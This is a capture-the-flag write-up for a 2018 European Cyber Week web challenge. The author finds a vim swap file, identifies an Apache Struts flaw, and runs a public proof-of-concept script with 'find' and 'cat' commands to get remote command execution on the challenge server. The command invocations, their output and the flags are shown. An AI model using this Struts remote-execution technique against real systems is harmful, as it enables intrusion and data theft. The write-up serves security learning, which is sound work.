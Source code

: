 ```yaml
---
weight: 4
title: "[European Cyber Week] - Troll.jsp"
date: 2018-10-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: ""
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["ecw", "thales", "airbus", "jsp", "web", "equifax", "rce"]
categories: ["Writeups"]

lightgallery: true
---
```



## State of the art

A marvelous Java website, I looooove Java (joke.), so the flag appears to have been stolen:


![](/lib/images/writeups/2018_ecw/trolljsp/troll_1.png)


I had to guess the `flag.jsp` page:


![](/lib/images/writeups/2018_ecw/trolljsp/troll_2.png)


On `md5decrypt.net`, this hash gives us: `swp`, it looks like a backup file of vim. Let's try something like `.flag.jsp.swp`.

## Backup file

Oh, looks like we have the code of the `flag.jsp` page:

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib prefix = "s" uri = "/struts-tags" %>

<html>
   <head>
      <title>Flag page!</title>
   </head>
   <body>
<!--TODO change the flag -->
   <s:set var='flag' value='%{"ECW{2f3f3238f9a5783fe4767d77e53aaf3b}"}'/>
   <s:set var='trollFlag' value='%{"ECW{a9ec6fc4217038a6f91294b8e5ed9933}"}'/>

   <s:set var='result' value='%{#session.flag!=null?#flag:#trollFlag}'/>
<p>
      Congratz! You got a flag: <s:property value = "result"/>
</p>
   </body>
</html>
```

The new hash is still a fake flag. On `md5decrypt`, it gives us __equifax__.

> https://www.zdnet.fr/actualites/faille-apache-struts-equifax-veut-noyer-le-poisson-39857358.htm

Well, it's an Apache struts vulnerability. There are a lot of GitHub repositories exploiting this vulnerability, here is one of them: https://github.com/jas502n/st2-046-poc

## Exploitation

I just execute the GitHub script:

```bash
$ bash ./exploit-cd.sh https://web125-trolljsp.challenge-ecw.fr/.flag.jsp.swp 'find . -ls | grep flag'
[...]
  6556060     12 -rw-r-----   1 tomcat   tomcat      11530 Aug 22 13:35 ./opt/tomcat/work/Catalina/localhost/ECW/org/apache/jsp/flag_jsp.class
  6556061     16 -rw-r-----   1 tomcat   tomcat      16046 Aug 22 13:35 ./opt/tomcat/work/Catalina/localhost/ECW/org/apache/jsp/flag_jsp.java
  6556025      4 -rwxr-xr-x   1 root     root         2249 Aug 22 13:35 ./opt/tomcat/webapps/ECW/flag.jsp
  6556001      4 -rwxr-xr-x   1 root     root          556 Aug 22 13:34 ./opt/tomcat/webapps/ECW/.flag.jsp.swp
[...]

$ bash ./exploit-cd.sh https://web125-trolljsp.challenge-ecw.fr/.flag.jsp.swp 'cat ./opt/tomcat/webapps/ECW/flag.jsp'
[...]
              </a>
            </li>
          </ul>
        </div>
      </div>
    </nav><s:set var='flag' value='%{"ECW{babde20f76698360d6f1a500b821e797}"}'/><s:set var='trollFlag' value='%{"ECW{a9ec6fc4217038a6f91294b8e5ed9933}"}'/><s:set var='result' value='%{#session.flag!=null?#flag:#trollFlag}'/>
    <div class="container">
      <div class="row">
        <div class="col-lg-12 text-center">
			<p class="lead">Now that's a flag! <s:property value = "result"/></p>
[...]
```

## Flag

> ECW{babde20f76698360d6f1a500b821e797}